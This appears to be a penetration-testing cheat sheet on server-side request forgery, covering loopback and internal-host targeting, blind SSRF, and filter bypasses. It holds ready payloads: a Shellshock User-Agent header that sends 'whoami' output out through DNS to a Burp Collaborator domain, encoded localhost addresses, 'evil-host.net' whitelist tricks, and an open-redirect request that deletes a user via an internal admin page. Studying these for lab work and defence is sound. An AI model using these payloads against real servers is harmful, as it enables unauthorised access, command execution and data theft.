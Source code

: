 ```yaml
---
description: The website server make HTTP requests to the attacker domain.
cover: https://www.plexal.com/wp-content/uploads/2023/05/MicrosoftTeams-image-171.png
coverY: 0
---
```


# SSRF

#### Server side request forgery Induce the server-side application to make HTTP requests to an random domain of the attacker's choosing.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:yellow;">SSRF against the server itself</mark>

Attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface for example: http://localhost/admin

### <mark style="color:yellow;">SSRF against other back-end systems</mark>

* Attacker can exploit the SSRF vulnerability to access the other interface by submitting a internal HTTP request (EX: http://192.168.1.105/admin)

### <mark style="color:yellow;">Blind SSRF vulnerabilities</mark>

Response from the back-end request is not returned in the application's front-end response

<mark style="color:purple;">**Find vulnerability**</mark>

Observe a DNS look-up for the supplied Burp Collaborator domain

<mark style="color:purple;">**Example (Blind SSRF with Shellshock exploitation)**</mark>

```http
GET /path TTP/1.1
Host: test.net
...
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).aaabbbcccdddeeefff.burpcollaborator.net
...
Referer: http://192.168.0.1:8080
Upgrade-Insecure-Requests: 1
Connection: close
```

## <mark style="color:red;">Bypass</mark>

### <mark style="color:yellow;">Bypass blacklist-based</mark>

* Change "127.0.0.1" to

```
http://2130706433
http://017700000001
http://127.1
http://127.0.1
http://0.0.0.0
http://0
http://0x7f000001
http://2130706433
http://017700000001
http://[::]:80
```

* Registering your own domain name that resolves to 127.0.0.1. You can use "spoofed.burpcollaborator.net" for this purpose
* Obfuscating blocked strings using URL encoding or case variation. Example

```
value=http://127.1/%25%36%31dmin/delete?username=carlos
```

### <mark style="color:yellow;">Bypass whitelist-based</mark>

* Using "@" char `https://expected-host@evil-host.net`
* Using "#" char `https://evil-host#expected-host.net`
* Create a invalid domain `https://expected-host.evil-host.net`
* Use URL-encode characters to confuse the URL-parsing code `http://localhost:80%2523@evil-host.net/admin`

### <mark style="color:yellow;">Bypassing SSRF filters via open redirection</mark>

<mark style="color:purple;">**Example 1:**</mark>

/product/nextProduct?currentProductId=6\&path=http://192.168.0.68/admin

<mark style="color:purple;">**Example 2:**</mark>

If "/product/stock" vulnerable to SSRF and "/nextProduct" vulnerable to OpenRedirect, Then

```http
// HTTP request

POST /product/stock vulnerable/1.1
Host: test.net
......
Connection: close

api=/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
